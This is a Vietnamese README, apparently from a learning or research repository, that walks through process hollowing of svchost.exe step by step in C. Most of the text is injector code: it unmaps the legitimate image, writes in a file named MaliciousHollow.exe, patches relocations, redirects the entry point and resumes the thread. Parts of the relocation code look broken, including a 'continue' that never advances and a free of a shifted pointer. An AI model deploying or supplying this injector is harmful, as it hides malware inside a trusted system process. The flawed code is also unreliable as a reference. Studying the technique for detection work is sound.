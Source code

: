 # ProcHollow
Repository này thực hiện xây dựng một chương trình tiến hành kỹ thuật Process Hollowing trên tiến trình svchost.exe.
# Một số kiến thức
Tham khảo từ https://hackmd.io/@Wh04m1/Sk4ZLgGc6
Khi tiến hành tạo một process, Kernel mở file thực thi và kiểm tra -> File PE hợp lệ thì kernel tạo 1 kernel process object và 1 kernel thread object đại diện cho process và thread mới -> kernwl ánh xạ image và NTDLL.DLL vào không gian bộ nhớ của tiến trình
-> thông báo cho tiến trình quản lý csrss.exe về process mới được tạo.

Tới đây, một tiến trình được kernel coi là khởi tạo thành công. Tiếp theo là quá trình khởi tạo context bên trong process.
Đối tượng quản lý process ở không gian người dùng là Process Environment Block và Thread Environment Block được khởi tạo -> Khởi tạo các thuộc tính khác, như heap, thread pool -> Tải các DLL cần thiết -> Khởi chạy tại entry point.

Nếu sử dụng API CreateProcess() với cờ CREATE_SUSPENDED, process mới được tạo sẽ ở trạng thái ngưng và chỉ có thể tiếp tục bằng API ResumeThread(). Khi được tạo ở trạng thái này, process sẽ được khởi tại đến bước tạo PEB và TEB, còn các quá trình
tạo heap, tải DLL, chạy tại entry point vẫn chưa được thực hiện. Kỹ thuật Process Hollowing sẽ lợi dụng điều này: tại một process bị suspended, xóa bỏ image gốc được nạp ban đầu, thay thế bằng image độc hại, thiết lập các context của image cho phù hợp và khiến process
chạy image độc hại thay vì chương trình ban đầu.

# Các bước thực hiện
Tại phần mềm injector, trước hết cần định nghĩa một số function và cấu trúc quan trọng cần dùng
```C
typedef NTSTATUS(NTAPI* pfnNtUnmapViewOfSection)(HANDLE ProcessHandle, PVOID BaseAddress);
typedef NTSTATUS(NTAPI* pfnNtQueryInformationProcess)(HANDLE ProcessHandle, PROCESSINFOCLASS ProcInfoClass,
	PVOID ProcInfor, ULONG ProcInfoLen, PULONG ReturnLen);
HMODULE hNTDLL = GetModuleHandleA("NTDLL.DLL");	// Mo NTDLL
// Lay dia chi ham NtUnmapViewOfSection
pfnNtUnmapViewOfSection pNtUnmapViewOfSection = (pfnNtUnmapViewOfSection)GetProcAddress(hNTDLL, "NtUnmapViewOfSection");
pfnNtQueryInformationProcess pNtQueryInformationProcess = (pfnNtQueryInformationProcess)GetProcAddress(hNTDLL, "NtQueryInformationProcess");
```
NtQueryInformationProcess là API dùng để lấy thông tin của Process, NtUnmapViewOfSection là API dùng để unmap vùng nhớ đã được cấp phát. Hai Native API này của Windows, được định nghĩa trong thư viện NTDLL.DLL
nhưng chưa được khai báo sẵn trong Windows SDL nên cần khai báo con trỏ hàm cho 2 API này để gán vào địa chỉ hàm đọc từ NTDLL ra.

Tiếp theo là định nghĩa một số cấu trúc struct chưa được định nghĩa đầy đủ là PEB_LDR_DATA, PEB_FREE_BLOCK, _UNICODE_STR, PEB, IMAGE_RELOC
## 1. Tạo mới process
Tạo mới process với API CreateProcess() trong đó cần truyền vào đường dẫn của tiến trình nạn nhân, cờ CREATE_SUSPENDED và hai struct STARTUPINFO + PROCESS_INFORMATION. STARTUPINFO là một cấu trúc dùng để chỉ định các thuộc tính khởi tạo của một tiến trình
gồm cách cửa sổ tiến trình hiển thị, giao diện và môi trường chạy. 
```C
typedef struct _PROCESS_INFORMATION {
  HANDLE hProcess;
  HANDLE hThread;
  DWORD  dwProcessId;
  DWORD  dwThreadId;
} PROCESS_INFORMATION, *PPROCESS_INFORMATION;

```
PROCESS_INFORMATION là cấu trúc chứa thông tin về tiến trình và luồng chính được tạo ra, nhận lại thông tin về tiến trình: handle Process và Thread, ProcessId, ThreadId.
```C
STARTUPINFO si;
PROCESS_INFORMATION pi;

ZeroMemory(&si, sizeof(si));
si.cb = sizeof(si);
ZeroMemory(&pi, sizeof(pi));
WCHAR victim[] = L"C:\\Windows\\System32\\svchost.exe";
if (!CreateProcess(NULL,    // No module name
    victim,                // CommandLine chua duong dan tien trinh duoc thuc thi
    NULL,                   // Process handle khong duoc ke thua
    NULL,                   // Thread handle khong duoc ke thua
    FALSE,                  // Handle khong duoc ke thua
    CREATE_SUSPENDED,       // creation flag == suspend
    NULL,                   // Su dung parent's environment block
    NULL,                   // Su dung start directiory cua parent
    &si,                    // pointer toi STARTUPINFO
    &pi                     // pointer toi PROCESS_INFORMATION
))
{
    std::cout << "Create process fail." << GetLastError() << std::endl;
    return 1;
}
```
Sau khi tạo tiến trình bị suspended, đọc thông tin của qua NtQueryInformationProcess, sử dụng struct PROCESS_BASIC_INFORMATION
```C
typedef struct _PROCESS_BASIC_INFORMATION {
    PVOID Reserved1;
    PPEB  PebBaseAddress;
    PVOID Reserved2[2];
    ULONG_PTR UniqueProcessId;
    ULONG_PTR InheritedFromUniqueProcessId;
} PROCESS_BASIC_INFORMATION;
```
Sử dụng ReadProcessMemory để đọc thông tin tại địa chỉ PebBaseAddress vào một biến PEB. Lấy được PEB.lpImageBaseAddress và Base Image Address của tiến trình.
Sử dụng NtUnmapViewOfSection để unmap vùng nhớ địa chỉ lpImageBaseAddress.

## 2. Tải image mới vào vùng nhớ đã hollowing
Mở và đọc file thực thi của tiến trình độc hại.
```C
WCHAR imagePath[] = L"..\\MaliciousHollow.exe";
HANDLE hFile = CreateFileW(imagePath, GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL); // mo file
DWORD rawImageSize = GetFileSize(hFile, NULL);	// lay kich thuoc file
LPVOID buffer = VirtualAlloc(NULL, rawImageSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
ReadFile(hFile, buffer, rawImageSize, NULL, NULL); // doc file, ghi vao buffer
CloseHandle(hFile);
```
Sau đó, cấp phát vùng nhớ tại chính vị trí đã hollowing, với kích thước là kích thước image tiến trình độc hại
```C
PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((ULONG_PTR)buffer + ((PIMAGE_DOS_HEADER)buffer)->e_lfanew);
LPVOID imageBase = VirtualAllocEx(pi.hProcess, peb.lpImageBaseAddress, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```
Ta sẽ copy header và các section vào vùng nhớ này. Theo Copilot giải thích, một số chương trình như SVCHOST.EXE có cơ chế kiểm tra nội bộ PEB->ImageBaseAddress nên cần phải cập nhật lại header của image giá trị ImageBase mới giống với PEB
của tiến trình SVCHOST.EXE rồi mới copy header vào vùng nhớ.
```C
ULONG_PTR delta = (ULONG_PTR)imageBase - ntHeader->OptionalHeader.ImageBase;
ntHeader->OptionalHeader.ImageBase = (ULONG_PTR)imageBase;
ULONG_PTR uValueA = ntHeader->OptionalHeader.SizeOfHeaders;
// copy header
WriteProcessMemory(pi.hProcess, imageBase, buffer, uValueA, NULL);
// copy section
uValueA = (ULONG_PTR)ntHeader + sizeof(IMAGE_NT_HEADERS);
ULONG_PTR uValueB = ntHeader->FileHeader.NumberOfSections;
while (uValueB)
{
	ULONG_PTR Src = (ULONG_PTR)buffer + ((PIMAGE_SECTION_HEADER)uValueA)->PointerToRawData;
	ULONG_PTR Des = (ULONG_PTR)imageBase + ((PIMAGE_SECTION_HEADER)uValueA)->VirtualAddress;
	WriteProcessMemory(pi.hProcess, (LPVOID)Des, (LPVOID)Src, (((PIMAGE_SECTION_HEADER)uValueA)->SizeOfRawData), NULL);
	// to next section
	uValueA += sizeof(IMAGE_SECTION_HEADER);
	uValueB--;
}
```
Trong quá trình sao chép image này, chúng ra sẽ tiến hành cả xử lý Relocation. Lưu ý, khác với Reflective DLL injection, nơi mà ReflectiveLoader thực thi là trong nội bộ tiến trình nạn nhân nên nó có thể truy cập trực tiếp vùng nhớ Relocation qua con trỏ.
Ở đây, injector đóng vai trò là một tiến trình bên ngoài tiến trình SVCHOST.EXE nên không thể truy cập trực tiếp vùng nhớ đã ghi vào trong SVCHOST.EXE. Cần phải dùng ReadProcessMemory đọc Reloc Table, sau đóc duyệt qua Reloc Table.
Với mỗi entry, sử dụng ReadProcessMemory để lấy ra giá trị Reloc, cộng delta ImageBase và ghi lại qua WriteProcessMemory.
```C
PIMAGE_DATA_DIRECTORY RelocDir = &(ntHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC]);

if (delta)
{
	if (RelocDir->Size)
	{
		uValueA = (ULONG_PTR)imageBase + RelocDir->VirtualAddress; // dia chi cua reloc table trong bo nho
		LPVOID RelocBuffer = VirtualAlloc(NULL, RelocDir->Size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
		ReadProcessMemory(pi.hProcess, (LPVOID)uValueA, RelocBuffer, RelocDir->Size, NULL);
		// Image dang nam tren vung nho nam ngoai pham vi truy cap truc tiep cua con tro thuoc ProHollow, can Read, Write Process
		while (((PIMAGE_BASE_RELOCATION)RelocBuffer)->SizeOfBlock)
		{
			// Lay dia chi page tuong ung voi relocation block nay
			uValueB = (ULONG_PTR)imageBase + ((PIMAGE_BASE_RELOCATION)RelocBuffer)->VirtualAddress;
			ULONG_PTR numberEntry = (((PIMAGE_BASE_RELOCATION)RelocBuffer)->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(IMAGE_RELOC);
			PIMAGE_RELOC pEntry = (PIMAGE_RELOC)((ULONG_PTR)RelocBuffer + sizeof(IMAGE_BASE_RELOCATION));// Dang o day
			while (numberEntry)
			{

				if (pEntry->type == 0)
					continue;
				ULONG_PTR relocPos = uValueB + pEntry->offset;
				ULONG_PTR relocPosData = 0;
				BOOL c =ReadProcessMemory(pi.hProcess, (LPVOID)relocPos, &relocPosData, sizeof(relocPosData), NULL);
				relocPosData += delta;
				BOOL d = WriteProcessMemory(pi.hProcess, (LPVOID)relocPos, &relocPosData, sizeof(relocPosData), NULL);
				// next
				pEntry++;
				numberEntry--;
			}
			RelocBuffer = (LPVOID)((ULONG_PTR)RelocBuffer + ((PIMAGE_BASE_RELOCATION)RelocBuffer)->SizeOfBlock);
		}

		VirtualFree(RelocBuffer, 0, MEM_RELEASE);
	}
}
```
## 3. Cập nhật giá trị entry point cho tiến trình SVCHOST.EXE
```C
CONTEXT context = { 0 };
context.ContextFlags = CONTEXT_FULL;
GetThreadContext(pi.hThread, &context);
context.Rcx = (ULONG_PTR)imageBase + ntHeader->OptionalHeader.AddressOfEntryPoint;
SetThreadContext(pi.hThread, &context);
```
## 4. Gọi ResumeThread
```C
ResumeThread(pi.hThread);
```
